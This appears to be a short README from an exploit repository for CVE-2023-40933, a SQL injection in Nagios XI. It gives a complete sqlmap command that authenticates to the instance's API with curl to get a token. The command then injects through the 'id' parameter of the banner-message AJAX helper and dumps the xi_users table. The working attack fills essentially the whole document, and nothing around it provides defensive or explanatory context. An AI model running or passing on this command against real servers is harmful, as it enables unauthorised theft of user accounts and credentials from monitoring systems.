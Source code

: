 # CVE-2023-40933
The sqlmap payload to exploit CVE-2023-40933

## Payload
Required Information:

- Valid Username and Password
- Domain and path of hosted instance

```
sqlmap -D nagiosxi -T xi_users -u "https://<INSTANCE>/nagiosxi/admin/banner_message-ajaxhelper.php?action=update_banner_message_settings&id=3&token=`curl -ksX POST https://<INSTANCE>/nagiosxi/api/v1/authenticate -d "username=<USERNAME>&password=<PASSWORD>&valid_min=1000" | awk -F'"' '{print$12}'`" --dump --level 4 --risk 3 -p id --batch
```
